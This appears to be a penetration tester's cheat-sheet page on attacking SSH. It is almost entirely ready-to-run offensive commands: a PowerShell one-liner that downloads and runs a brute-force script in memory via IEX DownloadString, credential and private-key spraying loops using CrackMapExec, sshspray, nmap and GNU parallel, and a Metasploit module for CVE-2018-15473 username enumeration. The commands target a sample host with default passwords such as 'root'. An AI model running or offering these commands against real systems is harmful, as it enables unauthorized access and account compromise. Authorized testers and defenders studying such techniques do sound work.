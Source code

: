 ```yaml
---
description: Secure Shell
---
```


# SSH

{% embed url="https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/" caption="Using the SSH "Konami Code" (SSH Control Sequences)" %}




## Brute Force

- [https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer](https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer)

From Windows:

```
PS > curl https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe -o plink.exe
PS > IEX(New-Object Net.WebClient).DownloadString("https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer/raw/master/ssh-putty-brute.ps1")
PS > ssh-putty-brute -h 192.168.1.11 -p 22 -u root -pw 'Passw0rd!'
PS > ssh-putty-brute -h 192.168.1.11 -p 22 -u root -pw (gc .\passwords.txt)
```




## Password Spray / Key Spray

- [https://github.com/mcorybillington/sshspray](https://github.com/mcorybillington/sshspray)

A list of targets with different SSH ports:

```
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $1}' > ssh_hosts
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $2}' > ssh_ports
$ paste ssh_hosts ssh_ports | while read host port; do cme ssh $host -u root -p root --port $port; done
```

Spray with a private key and passphrase `Passw0rd!` using CME:

```
$ cme ssh 192.168.1.11 -u root -p 'Passw0rd!' --key-file id_rsa
```

Using sshspray:

```
$ python3 sshspray.py -u root -i ~/.ssh/id_rsa -t ssh.txt
$ parallel --eta -j3 python3 sshspray.py -i {} -u root -t ssh.txt ">" output_{}.log  ::: id_rsa1 id_rsa2 id_rsa3
```

Using Nmap:

```
$ nmap -p 22 --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'}, ssh.privatekeys={'./id_rsa1', './id_rsa2'}" 192.168.1.11
```




## Enum Users

**CVE-2018-15473**

```
msf > use auxiliary/scanner/ssh/ssh_enumusers
msf > set CHECK_FALSE true
msf > set RHOSTS file:ssh.txt
msf > set THREADS 25
msf > set USERNAME root
msf > run
```
